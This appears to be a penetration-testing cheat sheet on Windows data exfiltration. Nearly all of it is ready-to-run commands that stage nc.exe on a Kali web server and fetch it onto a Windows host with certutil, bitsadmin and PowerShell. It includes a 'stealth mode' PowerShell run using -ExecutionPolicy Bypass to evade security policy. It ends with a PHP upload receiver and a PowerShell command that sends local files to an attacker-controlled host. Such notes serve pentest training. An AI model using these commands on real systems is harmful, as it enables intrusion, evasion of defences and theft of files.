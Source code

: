 # Windows Data Exfiltration

* Use kali linux NC windows binary
* Locate file transfer utilities on Windows systems
* Download a file using certutil
* Download a file using bitsadmin
* Download a file with PowerShell
* Upload a file with PowerShell

## Use Kali Linux NC windows-binary

```bash
sudo apt install windows-binaries
ll /usr/share/windows-binaries/
windows-binaries -h
```

```bash
sudo cp /usr/share/windows-binaries/nc.exe /var/www/html/
```

## FreeRSD - A Free Remote Desktop Protocol

* +clipboard
* /v: server

```bash
xfreerdp +clipboard /u:user /p:password /v:remote-ip
```

## Download a file using certutil

* We can also use this to download remote files.
* But: Certutil is blocked by Windows Security Antivirus rules.
* -urlcache
* -f file url 

```powershell
C:\Users\user> cd Downloads
certutil -urlcache -split -f http://kali-ip/nc.exe nc.exe
```

## Downlaod a file using bitsadmin

```powershell
bitsadmin /create DownloadJob
bitsadmin /addfile DownloadJob http://kali-ip/nc.exe C:\Users\user\Downloads\nc.exe
bitsadmin /resume DownloadJob
bitsadmin /complete DownloadJob
bitsadmin /info DownloadJob /verbose
```

## Downlaod a file using powershell

```powershell
(New-Object Net.WebClient).DownloadFile('http://remote-ip/nc.exe', 'nc.exe')

wget http://remote-ip/nc.exe -o nc.exe

Invoke-WebRequest -Uri 'http://remote-ip/nc.exe' -OutFile 'nc.exe'
Invoke-WebRequest -Uri 'http://remote-ip/nc.exe' -OutFile 'nc.exe' -proxy "http://proxy.contoso.com:8080
```

## Downlaod a file using powershell script with stealth mode

* Bypass security policy and default profiel
* -ExecutionPolicy Bypass
* -NoProfile

* Stealth mode
* -NonInteractive
* -NoLogo

```powershell
type .\wget.ps1
$webclient = New-Object System.Net.WebClient
$url = "http://remote-ip/nc.exe"
$dst = "nc.exe"
$webclient.DownloadFile($url,$dst)

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File .\wget.ps1
```

## Upload File with powershell

* '$' must be escaped in bash scripts
* \$

```bash
cat psupload.php
<?php 
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
if(move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile))
    echo "Upload done.";
else
    echo "Upload error!";
?>
```

```powershell
powershell $response=(New-Object Net.WebClient).UploadFile('http://remote-ip/psupload.php', '.\Upload.txt'); [Text.Encoding]::UTF8.GetString($response)
```
